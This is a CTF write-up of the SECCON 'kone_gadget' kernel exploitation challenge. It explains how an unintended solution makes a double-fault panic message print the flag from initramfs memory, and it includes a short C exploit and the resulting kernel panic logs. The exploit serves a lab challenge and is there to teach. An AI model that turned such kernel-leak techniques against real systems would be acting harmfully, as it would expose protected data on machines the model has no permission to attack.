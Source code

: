 # kone_gadget

**Authors** [Nspace](https://twitter.com/_MatteoRizzo)

**Tags**: pwn, kernel

**Points**: 365 (5 solves)

> Does any "one gadget" exist in kernel-land?
> `nc niwatori.quals.seccon.jp 11111`
> [kone_gadget.tar.gz](https://secconctf-prod.s3.isk01.sakurastorage.jp/production/kone_gadget/kone_gadget.tar.gz) deb1280bb874b1847f5891599784bf683bee65dc
>
> author:ptr-yudai

## TL; DR:

```nasm
jmp flag
```

The panic handler prints out the flag.

## Analysis

The setup is pretty simple. We get an unprivileged shell in a Linux VM and the flag is in a file inside the VM that only root can read. We have to exploit the kernel to gain root privileges to that we can read the flag. The challenge VM has every mitigation (SMEP, SMAP, KPTI) enabled except KASLR.

The challenge's kernel has a custom syscall, `SYS_seccon`:

```c
SYSCALL_DEFINE1(seccon, unsigned long, rip)
{
  asm volatile("xor %%edx, %%edx;"
               "xor %%ebx, %%ebx;"
               "xor %%ecx, %%ecx;"
               "xor %%edi, %%edi;"
               "xor %%esi, %%esi;"
               "xor %%r8d, %%r8d;"
               "xor %%r9d, %%r9d;"
               "xor %%r10d, %%r10d;"
               "xor %%r11d, %%r11d;"
               "xor %%r12d, %%r12d;"
               "xor %%r13d, %%r13d;"
               "xor %%r14d, %%r14d;"
               "xor %%r15d, %%r15d;"
               "xor %%ebp, %%ebp;"
               "xor %%esp, %%esp;"
               "jmp %0;"
               "ud2;"
               : : "rax"(rip));
  return 0;
}
```

The custom syscall zeroes every general-purpose register and then jumps to an address chosen by us. Somehow we have to use this to become root.

## Exploitation

This syscall would be trivial to exploit if we could simply jump to some shellcode in userspace and execute that. Unfortunately SMEP and KPTI would crash the kernel if we tried to do that, so it's not an option. We can only execute code in kernel pages. Under normal circumstances this is not a problem because we can use the RIP control to start a JOP chain or call a function in the kernel. Unfortunately `SYS_seccon` clears all the registers, including the stack pointer before jumping to our target. This makes the bug rather annoying to exploit:

* We cannot call any kernel functions because they all assume that they have a valid stack so they crash either in the function prologue or when they return. Moreover even if we still had a valid stack we wouldn't have any control over the arguments that these functions are called with.
* We cannot use the standard JOP approach of switching the stack to controlled memory and then starting a ROP chain because all the registers (except `rax`) are zero. We would somehow need to find some code in the kernel that contains a pointer to some controlled kernel memory, that contains a valid stack pivot, and that we can get to without crashing. Doesn't seem very likely.
* As soon as the CPU receives an interrupt the kernel will crash with a double fault because the interrupt handlers also assumes that there is a valid stack.

The challenge description hints at a "one gadget in kernel-land", a sequence of instruction that is present in the kernel and that will give us root when jumped to. While the idea might seem a bit far-fetched, there are [one-shot gadgets](https://github.com/david942j/one_gadget) in glibc that spawn a shell when jumped to so it doesn't seem entirely out of the realm of possibility[^1]. With that in mind I started searching, and didn't find anything. I did find some gadgets that would get back a valid stack by reading it from `gs:cpu_current_top_of_stack`, but none of them do anything useful. All the other gadgets would need a valid stack to be useful.

The other idea that I had was to modify some variable that is later used in the double fault handler. Normally a double fault panics and doesn't do anything else, but maybe there is a way to modify a variable so that the handler does what we want? Sadly there doesn't seem to be anything we can do here either.

At this point I was run out of things to try but staring at so many kernel panics gave me a new idea. Consider the following kernel panic message:

```
traps: PANIC: double fault, error_code: 0x0
double fault: 0000 [#1] SMP PTI
CPU: 0 PID: 129 Comm: pwn Not tainted 5.14.12 #4
Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.13.0-1ubuntu1.1 04/01/2014
RIP: 0010:commit_creds+0x0/0x190
Code: 48 89 e5 e8 92 fe ff ff 5d c3 8b 07 85 c0 7e 16 48 85 ff 74 05 3e ff 0f 74 01 c3 55 48 89 e5 e8 76 fe ff ff 5d c3 0f 0b 66 90 <55> 48 89 e5 41 55 65 4c 8b 2c 25 c0 6c 01 00 41 54 53 4d 8b a5 78
RSP: 0018:0000000000000000 EFLAGS: 00010246
RAX: ffffffff81073ad0 RBX: 0000000000000000 RCX: 0000000000000000
RDX: 0000000000000000 RSI: 0000000000000000 RDI: 0000000000000000
RBP: 0000000000000000 R08: 0000000000000000 R09: 0000000000000000
R10: 0000000000000000 R11: 0000000000000000 R12: 0000000000000000
R13: 0000000000000000 R14: 0000000000000000 R15: 0000000000000000
FS:  00000000004040b8(0000) GS:ffff888003800000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: fffffffffffffff8 CR3: 0000000002ee2000 CR4: 00000000003006f0
```

The panic message is meant to help people debug the problem, so it includes quite a bit of information about the state of the kernel prior to the crash. For example it contains the values of the registers, a stack trace (not present here since we don't have a valid stack), and a printout of the machine code where the kernel crashed. On x86 the machine code is printed by [`show_opcodes`](https://elixir.bootlin.com/linux/latest/source/arch/x86/kernel/dumpstack.c#L119), which prints the 42 bytes preceding the address where the kernel crashed. However there is no check that these bytes are actually code: in principle they could be anything, even data.

So... could we use this to read the flag?

The answer is yes, at least for this challenge. The flag is located in memory, in the initramfs. The initramfs is just an uncompressed CPIO file so the flag is just there in plaintext, somewhere. Since there is no KASLR, the virtual address at which the initramfs is mapped is also constant between runs[^2]. The easiest way to locate the flag in memory is to dump the entire memory of the VM from the QEMU monitor and search for the flag in there. We can find the flag at physical address `0x228B000`, which is mapped at `0xffff88800228B000` in the physmap.

All that we have to do is to jump there, and we get the flag from the panic message.

```c
#include <sys/syscall.h>
#include <unistd.h>

int main(void)
{
    syscall(1337, 0xffff88800228B000 + 42);
}
```

```
traps: PANIC: double fault, error_code: 0x0
double fault: 0000 [#1] SMP PTI
CPU: 0 PID: 187 Comm: pwn Not tainted 5.14.12 #4
Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.13.0-1ubuntu1.1 04/01/2014
RIP: 0010:0xffff88800228b02a
Code: 53 45 43 43 4f 4e 7b 50 6c 65 61 73 65 20 44 4d 20 70 74 72 2d 79 75 64 61 69 20 69 66 20 55 20 73 6f 6c 76 65 64 20 74 68 69 <73> 20 77 69 74 68 6f 75 74 20 73 65 63 63 6f 6d 70 20 6f 72 20 62
RSP: 0018:0000000000000000 EFLAGS: 00000246
RAX: ffff88800228b02a RBX: 0000000000000000 RCX: 0000000000000000
RDX: 0000000000000000 RSI: 0000000000000000 RDI: 0000000000000000
RBP: 0000000000000000 R08: 0000000000000000 R09: 0000000000000000
R10: 0000000000000000 R11: 0000000000000000 R12: 0000000000000000
R13: 0000000000000000 R14: 0000000000000000 R15: 0000000000000000
FS:  00000000004040b8(0000) GS:ffff888003800000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: fffffffffffffff8 CR3: 0000000002e20000 CR4: 00000000003006f0
Call Trace:
```

`SECCON{Please DM ptr-yudai if U solved this without seccomp or bpf}`

As you have probably guessed (and as the flag hints at), this solution was completely unintended. The intended way was to use the in-kernel BPF jit to mount a jit spraying attack on the kernel. This sounds makes a lot of sense but we didn't think of it during the CTF. Oh well... Still thanks to the author, it was a fun challenge to work on.

[^1]: It's worth noting though that the one-shot gadgets in glibc would not work without a valid stack. Had we had a valid stack here, this challenge would have been much easier.
[^2]: Even with KASLR we could have probably brute forced the address, as KASLR has notoriously low entropy.
